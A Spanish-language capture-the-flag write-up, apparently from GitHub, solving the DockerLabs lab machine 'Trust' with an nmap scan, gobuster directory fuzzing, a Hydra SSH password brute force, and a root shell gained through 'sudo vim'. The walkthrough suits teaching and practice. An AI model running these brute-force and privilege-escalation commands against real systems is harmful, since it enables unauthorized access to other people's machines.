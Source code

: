 
# Trust - Resolviendo la Máquina

## Introducción
Hola, bienvenidos y bienvenidas. Vamos a resolver una máquina de la plataforma DockerLabs llamada **Trust**. A continuación, verás paso a paso cómo se resuelve. ¡Que te diviertas!

---

## Iniciando la Máquina
### Comprobando Conexión
Hacemos un ping a la máquina para comprobar la conexión:

```bash
ping -c 1 172.18.0.2
```

---

## Escaneo de Puertos
Utilizamos `nmap` con la IP proporcionada por DockerLabs para ver los puertos abiertos:

```bash
sudo nmap -p- –open -sS –min-rate 5000 -vvv -n -Pn 172.18.0.2
```

Resultados relevantes:
- Puerto **22** (SSH) abierto.
- Puerto **80** (HTTP) abierto.

---

## Análisis del Sitio Web


![login](https://github.com/xavis3c/Writeups-dockerlabs/blob/Recursos/debian-web.png)




Accedemos al sitio en el navegador y vemos que es la página por defecto de Apache2. No encontramos nada interesante, así que seguimos con más pruebas.

### Fuzzing con Gobuster
Ejecutamos Gobuster para encontrar directorios y archivos ocultos:

```bash
gobuster dir -u "http://172.18.0.2/" -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,txt,py,bak,php.bak
```

Explicación:
- `dir` → Escaneo de directorios y archivos.
- `-u` → URL objetivo (`http://http://172.18.0.2`).
- `-w` → Lista de palabras con nombres comunes de directorios/archivos.
- `-x` → Prueba archivos con extensiones específicas.

Descubrimos un archivo **/secret.php**. Nos dirigimos a él en el navegador con:

```bash
http://http://172.18.0.2//secret.php
```

Este archivo nos revela que existe un usuario llamado **Mario**.

![login](https://github.com/xavis3c/Writeups-dockerlabs/blob/Recursos/hola-mario.png)




---

## Ataque de Fuerza Bruta con Hydra
Dado que conocemos el usuario **Mario**, realizamos un ataque de fuerza bruta con Hydra sobre el puerto SSH:

```bash
hydra -l mario -P /usr/share/wordlists/rockyou.txt ssh://172.18.0.2 -t 4
```

Explicación:
- `-l mario` → Usuario objetivo.
- `-P /usr/share/wordlists/rockyou.txt` → Lista de contraseñas a probar.
- `ssh` → Servicio objetivo (SSH).
- `-t 4` → Usa 4 hilos para acelerar el ataque.

Hydra nos da la contraseña **chocolate**.

Nos conectamos por SSH con:

```bash
ssh mario@172.18.0.2
```

---

## Escalada de Privilegios
Ya dentro de la máquina como Mario, buscamos formas de escalar privilegios.

Ejecutamos:

```bash
sudo -l
```

Descubrimos que podemos ejecutar **/usr/bin/vim** con privilegios elevados. Buscamos en GTFOBins y encontramos que podemos obtener una shell de root con el siguiente comando:

```bash
sudo vim -c ':!bash'
```

Verificamos con:

```bash
whoami
```

¡Ahora somos **root**!

---

¡Máquina resuelta!

